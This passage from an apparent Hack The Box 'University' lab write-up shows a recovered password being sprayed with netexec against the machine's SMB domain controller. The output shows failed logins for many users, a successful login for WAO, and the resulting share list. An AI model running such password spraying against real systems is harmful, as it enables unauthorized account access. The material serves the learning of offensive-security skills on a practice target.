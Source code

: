 | Password  |
| --------- |
| WebAO1337 |

## Privilege Escalation to WAO
### Password Spraying

The `password` indicated that it could be the `password` for the user `WAO` but we would `sprayed` it anyways so we just made sure that we were correct about that.

```c
┌──(kali㉿kali)-[/media/…/HTB/Machines/University/files]
└─$ netexec smb 10.129.153.87 -u usernames.txt -p passwords.txt --shares
SMB         10.129.153.87   445    DC               [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC) (domain:university.htb) (signing:True) (SMBv1:False)
SMB         10.129.153.87   445    DC               [-] university.htb\george:WebAO1337 STATUS_LOGON_FAILURE 
SMB         10.129.153.87   445    DC               [-] university.htb\carol:WebAO1337 STATUS_LOGON_FAILURE 
SMB         10.129.153.87   445    DC               [-] university.htb\carol helgen:WebAO1337 STATUS_LOGON_FAILURE 
SMB         10.129.153.87   445    DC               [-] university.htb\nour:WebAO1337 STATUS_LOGON_FAILURE 
SMB         10.129.153.87   445    DC               [-] university.htb\Nour Qasso:WebAO1337 STATUS_LOGON_FAILURE 
SMB         10.129.153.87   445    DC               [-] university.htb\martin.rose:WebAO1337 STATUS_LOGON_FAILURE 
SMB         10.129.153.87   445    DC               [-] university.htb\martin rose:WebAO1337 STATUS_LOGON_FAILURE 
SMB         10.129.153.87   445    DC               [-] university.htb\nya:WebAO1337 STATUS_LOGON_FAILURE 
SMB         10.129.153.87   445    DC               [-] university.htb\Nya Laracrof:WebAO1337 STATUS_LOGON_FAILURE 
SMB         10.129.153.87   445    DC               [-] university.htb\steven.U:WebAO1337 STATUS_LOGON_FAILURE 
SMB         10.129.153.87   445    DC               [-] university.htb\steven Universe:WebAO1337 STATUS_LOGON_FAILURE 
SMB         10.129.153.87   445    DC               [-] university.htb\Choco.L:WebAO1337 STATUS_LOGON_FAILURE 
SMB         10.129.153.87   445    DC               [-] university.htb\John.D:WebAO1337 STATUS_LOGON_FAILURE 
SMB         10.129.153.87   445    DC               [-] university.htb\Nya.R:WebAO1337 STATUS_LOGON_FAILURE 
SMB         10.129.153.87   445    DC               [-] university.htb\Rose.L:WebAO1337 STATUS_LOGON_FAILURE 
SMB         10.129.153.87   445    DC               [+] university.htb\WAO:WebAO1337 
SMB         10.129.153.87   445    DC               [*] Enumerated shares
SMB         10.129.153.87   445    DC               Share           Permissions     Remark
SMB         10.129.153.87   445    DC               -----           -----------     ------
SMB         10.129.153.87   445    DC               ADMIN$                          Remote Admin
SMB         10.129.153.87   445    DC               C$                              Default share
SMB         10.129.153.87   445    DC               IPC$            READ            Remote IPC
SMB         10.129.153.87   445    DC               Lectures                        Lectures Share folder for Content Evalutors for reviewing submitted lectures
SMB         10.129.153.87   445    DC               NETLOGON        READ            Logon server share 
SMB         10.129.153.87   445    DC               SYSVOL          READ            Logon server share
```
